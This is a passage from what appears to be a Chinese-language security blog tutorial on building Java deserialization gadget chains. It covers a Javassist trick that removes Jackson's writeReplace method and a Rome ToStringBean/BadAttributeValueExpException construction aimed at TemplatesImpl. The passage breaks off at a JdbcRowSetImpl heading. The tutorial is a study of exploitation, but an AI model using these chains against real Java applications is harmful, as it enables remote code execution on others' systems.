 嫌麻烦的话直接引入 `springframework.boot.spring.starter.web`依赖就行

#### getter 调用顺序不稳定及解决方式

这一块已经有师傅写过相关文章，我也就不做重复劳动了

问题原因： [https://mp.weixin.qq.com/s/XrAD1Q09mJ-95OXI2KaS9Q](https://mp.weixin.qq.com/s/XrAD1Q09mJ-95OXI2KaS9Q)

解决方式： [https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

值得一提的是，Jackson 结合 LDAPAttribute 使用的时候不需要这部分操作，**如果添加了反而会出错（当然**

#### 删除 writeplace() 方法

这一块也早就有很多师傅提过，但因为是一个很小的点，并没有专门分析的文章，不太好直接扔个链接，我也就干脆顺便提一下

在 Java 对象的序列化流程中，如果其类（或父类）拥有 writeReplace 方法（字面意思，writeObject 替代）就会走到类自己的序列化逻辑

Jackson 中的 POJONode 类就满足这个条件，在序列化的时候便会发生报错（Jackson 序列化和 Java 原生序列化的数据自然是不同的）

解决这个问题有多种思路，我们直接使用 Javaassist 字节码修改工具，删除 BaseJsonNode 类中的 writeReplace 方法即可

```plain
CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
```

### Rome

Rome 1.12.0 之前都可以用，注意 1.0 和后续版本中 beanClass、obj 的属性名有差别（低版本属性名前会有一个下划线 `_` ）

#### TemplatesImpl

Rome 结合 TemplatesImpl 利用时存在和 Jackson 相似的问题，可能会在调用别的 getter 时报错而提前终止流程

这里也是采用相似的解决思路，使用 Rome 时可以直接在 ToStringBean 里指定从哪个类里获取 getter，操作起来很简单

```plain
Object templatesImpl = null;
        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesImpl); //在这里指定了从 templates.class 接口里去获取 getter，
                                                                              //其中只有一个 getter：getOutputProperties()
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);
        serialize(badAttributeValueExpException);       
        unserialize("ser.bin");
```

#### JdbcRowSetImpl
